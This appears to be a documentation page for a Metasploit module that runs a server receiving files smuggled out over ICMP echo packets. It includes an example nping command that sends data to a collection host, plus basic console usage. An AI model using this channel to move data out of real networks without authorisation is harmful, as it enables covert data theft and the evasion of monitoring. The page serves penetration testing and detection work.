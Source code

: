 ## ICMP Exfiltration Service

This module is designed to provide a server-side component 
to receive and store files exfiltrated over ICMP echo 
request packets. To use this module you will need to send an 
initial ICMP echo request containing the specific start 
trigger (defaults to '^BOF') this can be followed by the 
filename being sent (or a random filename can be assisnged). 
All data received from this source will automatically be 
added to the receive buffer until an ICMP echo request 
containing a specific end trigger (defaults to '^EOL') is 
received. Suggested Client: Data can be sent from the client 
using a variety of tools. One such example is nping 
(included with the NMAP suite of tools) - usage: nping 
--icmp 10.0.0.1 --data-string "BOFtest.txt" -c1


## Module Name
auxiliary/server/icmp_exfil

## Authors
Chris John Riley


## References
* https://github.com/todb/packetfu
* http://nmap.org/book/nping-man.html
* http://blog.c22.cc/2012/02/17/quick-post-fun-with-python-ctypes-simpleicmp/




## Platforms


## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use auxiliary/server/icmp_exfil
msf auxiliary(icmp_exfil) > show targets
   ... a list of targets ...
msf auxiliary(icmp_exfil) > set TARGET <target-id>
msf auxiliary(icmp_exfil) > show options
   ... show and set options ...
msf auxiliary(icmp_exfil) > run
```
    
    